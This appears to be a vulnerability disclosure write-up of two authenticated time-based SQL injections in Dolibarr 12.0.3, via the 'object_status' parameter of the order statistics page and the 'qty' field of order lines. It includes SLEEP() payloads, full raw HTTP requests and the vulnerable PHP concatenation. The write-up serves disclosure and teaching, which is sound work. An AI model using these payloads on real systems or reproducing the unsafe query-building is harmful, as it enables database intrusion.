
# C10010: Dolibarr 12.0.3, Multiple SQL injection (authenticated)

I'm not going to repeat myself and present the application, let's go straight to the heart of the matter here. I'm currently reading the Dolibarr application code and as the name of this chapter indicates it, I was able to identify a SQL injection.

##  Time Based SQL injection in  POST parameter `object_status`

An authenticated user with the privilege to view customer orders (which can be common since it is not a high privilege and therefore increases the probability of exploitation) can exploit the SQLi by performing a Time Based attack.



### How ?
The POST parameter `object_status` from the route <span style="color:red">\<ROOT\>/commande/stats/index.php</span> will be our entry point.

First of all, we can identify the presence of the vulnerability as it is possible to see below, using the `IF()` and `SLEEP()` MySQL's functions.

The first payload will not create a delay because 2 is greater than 1, so the `SLEEP(0)` is executed.

Payload 1:
```sql
IF(2<1, SLEEP(5), SLEEP(0))
```

Request:
```
POST /projects/dolibarr/12.0.3/htdocs/commande/stats/index.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/projects/dolibarr/12.0.3/htdocs/commande/stats/index.php
Upgrade-Insecure-Requests: 1
Cookie: DOLSESSID_6d0e1ecfaad79948851cc2a04d382d2e=1e1f36c1cb94ad7d609ccc23b87a8ec7

object_status=IF(2<1, SLEEP(5), SLEEP(0))
```



For the second payload, 0 being less than 1, the `SLEEP(10)` is executed causing a minimum delay of 10 seconds. I indicate a "minimum" delay because if the payload is injected several times, it can lead to multiply the delay by n.

Payload 2:
```sql
IF(0<1, SLEEP(5), SLEEP(0))
```

Request:
```
POST /projects/dolibarr/12.0.3/htdocs/commande/stats/index.php HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.16; rv:83.0) Gecko/20100101 Firefox/83.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: fr,fr-FR;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 41
Origin: http://127.0.0.1
Connection: close
Referer: http://127.0.0.1/projects/dolibarr/12.0.3/htdocs/commande/stats/index.php
Upgrade-Insecure-Requests: 1
Cookie: DOLSESSID_6d0e1ecfaad79948851cc2a04d382d2e=1e1f36c1cb94ad7d609ccc23b87a8ec7

object_status=IF(0<1, SLEEP(5), SLEEP(0))
```



### Why ?

Let's identify the presence of the vulnerability within the code.

File: <span style="color:red">\<ROOT\>/commande/stats/index.php</span>
```php

<?php

...

$mode = GETPOST("mode") ?GETPOST("mode") : 'customer';

...

$object_status = GETPOST('object_status');

...

if ($mode == 'customer')
{
    if ($object_status != '' && $object_status >= -1) $stats->where .= ' AND c.fk_statut IN ('.$db->escape($object_status).')';
}

...

$data = $stats->getNbByMonthWithPrevYear($endyear, $startyear);

...

$data = $stats->getAmountByMonthWithPrevYear($endyear, $startyear);

...

$data = $stats->getAverageByMonthWithPrevYear($endyear, $startyear);

...

$data = $stats->getAllByYear();

...

```

As we can see 4 requests are made to the database which injects 4 times our paylaod and thus create a delay of 4*5=20 seconds. Now, let's add some debug to see what happens.

File: <span style="color:red">\<ROOT\>/commande/stats/index.php</span>
```php

<?php

...

$mode = GETPOST("mode") ?GETPOST("mode") : 'customer';

...

$object_status = GETPOST('object_status');

...

if ($mode == 'customer')
{
    if ($object_status != '' && $object_status >= -1) $stats->where .= ' AND c.fk_statut IN ('.$db->escape($object_status).')';
}


echo "[DEBUG]: START\n";
echo "[DEBUG]: stats:\n";
var_dump($stats);
echo "[DEBUG]: END\n";
// Build graphic number of object
$data = $stats->getNbByMonthWithPrevYear($endyear, $startyear);

...

$data = $stats->getAmountByMonthWithPrevYear($endyear, $startyear);

...

$data = $stats->getAverageByMonthWithPrevYear($endyear, $startyear);

...

$data = $stats->getAllByYear();

...

```



Thanks to the debug, we can see where our injection had taken place in the SQL request.

##  Time Based SQL injection in  POST parameter `qty`

An authenticated user with the privilege to create/modify customer orders can exploit the SQLi by performing a time-based attack.



### How ?

First of all let's look at how it is possible to edit a command.

1. Go into an existing command:


2. Ask to edit the order:


3. Accept to edit the order:


4. Modify an item from the order:


As soon as we are able to edit the item of a command, we can start to identify the vulnerability. To do this change the quantity of an item with the value `SLEEP(5)` to observe a delay in the server response.



Thanks to the Burp capure below we observe that the response time is about 7 seconds.



Change the value of the `SLEEP()` function from 5 to 0, and see that the response delay is now about 2 seconds.



We now gona try to create a delay of 12 seconds by replacing 0 by 10.



This allows us to conclude that it is therefore possible to exploit this vulnerability by exploiting a Time Based SQL injection.

